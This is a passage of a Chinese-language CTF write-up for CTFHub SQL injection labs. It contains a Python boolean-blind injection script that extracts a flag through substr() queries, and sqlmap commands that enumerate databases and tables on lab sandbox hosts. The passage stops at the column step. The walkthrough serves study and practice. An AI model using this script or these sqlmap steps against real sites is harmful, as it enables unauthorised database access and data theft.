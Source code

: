 ![image-20210719161041707](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439879.png)

4. 后面==用python自动化脚本布尔盲注爆破==【要跑一会】

```python
重点代码：
#对指定库指定表指定列爆数据（flag）
def getData(database,table,column,str_list):
	#初始化flag长度为1
    j = 1
    #j从1开始，无限循环flag长度
    while True:
    	#flag中每一个字符的所有可能取值
        for i in str_list: #str_list是字母表的ASCII码
            new_url = url + "?id=1 and substr((select {} from {}.{}),{},1)='{}'".format(column,database,table,j,chr(i))
            r = requests.get(new_url)
            #如果返回的页面有query_success，即盲猜成功，跳过余下的for循环
            if success_mark in r.text:
            	#显示flag
                print(chr(i),end="")
                #flag的终止条件，即flag的尾端右花括号
                if chr(i) == "}":
                    print()
                    return 1
                break
        #如果没有匹配成功，flag长度+1接着循环
        j = j + 1
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439880.png" alt="image-20210719170950999" style="zoom:80%;" />



### 时间盲注

- sqlmap工具法： 

1. 爆库名=》发现4个库名

```
sqlmap -u http://challenge-53394f4a591385b3.sandbox.ctfhub.com:10800/?id=1 --dbs
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439881.png" alt="image-20210719173257617" style="zoom:80%;" />

2. 爆表名

```
sqlmap -u http://challenge-c040fe3754779bb8.sandbox.ctfhub.com:10800/?id=1 -D sqli --tables
```

![image-20210719223141434](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439882.png)

3. 爆列名
